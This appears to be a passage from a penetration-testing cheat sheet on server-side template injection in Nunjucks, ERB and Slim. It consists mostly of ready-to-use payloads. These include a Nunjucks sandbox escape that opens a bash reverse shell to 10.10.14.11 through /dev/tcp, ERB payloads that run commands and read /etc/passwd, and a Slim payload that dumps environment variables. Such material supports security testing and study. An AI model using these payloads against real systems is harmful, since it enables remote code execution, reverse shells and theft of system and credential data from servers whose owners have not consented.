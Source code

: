 ```
{
  {
    range.constructor(
      "return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')"
    )()
  }
}
```
```
**More information**

- [[http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine|http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine]]

### Other NodeJS

![[../../images/image (1) (1).png|]]

*[[https://miro.medium.com/v2/resize:fit:640/format:webp/1*J4gQBzN8Gbj0CkgSLLhigQ.jpeg|https://miro.medium.com/v2/resize:fit:640/format:webp/1\*J4gQBzN8Gbj0CkgSLLhigQ.jpeg]]*


![[../../images/image (1) (1) (1).png|]]

*[[https://miro.medium.com/v2/resize:fit:640/format:webp/1*jj_-oBi3gZ6UNTvkBogA6Q.jpeg|https://miro.medium.com/v2/resize:fit:640/format:webp/1\*jj\_\-oBi3gZ6UNTvkBogA6Q.jpeg]]*


- More info in [[https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756|https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756]]

### ERB (Ruby)

- `{{7*7}} = {{7*7}}`
- `${7*7} = ${7*7}`
- `<%= 7*7 %> = 49`
- `<%= foobar %> = Error`

```python
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls / %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```
```
**More information**

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby]]

### Slim (Ruby)

- `{ 7 * 7 }`

```
{ %x|env| }
```
```